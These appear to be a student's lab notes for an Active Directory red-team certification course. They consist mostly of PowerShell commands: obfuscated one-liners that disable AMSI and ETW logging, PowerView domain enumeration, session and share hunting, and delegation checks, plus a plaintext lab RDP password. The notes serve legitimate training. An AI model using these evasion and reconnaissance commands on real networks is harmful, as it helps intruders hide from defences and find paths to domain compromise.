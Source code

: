 ```powershell
xfreerdp3 /u:student548 /p:cAyF6wTLSydnL2M7 /v:172.16.100.48 /dynamic-resolution /drive:AD,/home/adot/certifications/crtp/lab
```

```powershell
net use A: \\TSCLIENT\Tools

A:\tools\InviShell\RunWithRegistryNonAdmin.bat

[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
copy A:\tools\* .
```

```powershell
Import-Module .\PowerView.ps1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

Basic enumeration
```powershell
Get-DomainUser | select cn

Get-DomainComputer | select dnshostname

Get-DomainGroupMember -Identity "Domain Admins" -recurse | select membername
Get-DomainGroupMember -Identity "Enterprise Admins" -recurse -domain moneycorp.local | select membername
```

ACLs - Perform on current user + groups user is in
```powershell
Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "student548"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDP Users"}

Get-DomainObjectAcl -SearchBase "LDAP://CN=RDP Users,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose
```

OUs and GPOs
```powershell
Get-DomainOU -properties name
(Get-DomainOU -identity Applocked).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

Get-DomainGPO | select displayname
Get-DomainGPO -ComputerIdentity dcorp-std548
```

Domain and Forest trusts
```powershell
Get-DomainTrust
Get-ForestDomain -Forest <forest>
```

Local Admin access?
```powershell
Find-PSRemotingLocalAdminAccess
```

Create a servers.txt file
```powershell
Get-DomainComputer | select cn
```

Find DA sessions
```powershell
Invoke-SessionHunter -NoPortScan -Targets C:\Users\Public\servers.txt
```

Find shares
```powershell
Import-Module .\PowerHuntShares.psm1
```

```powershell
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\Users\Public -HostList C:\Users\Public\servers.txt

Invoke-ShareFinder -Verbose
```

Unconstrained delegation?
```powershell
Get-DomainComputer -UnConstrained
```


**REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE**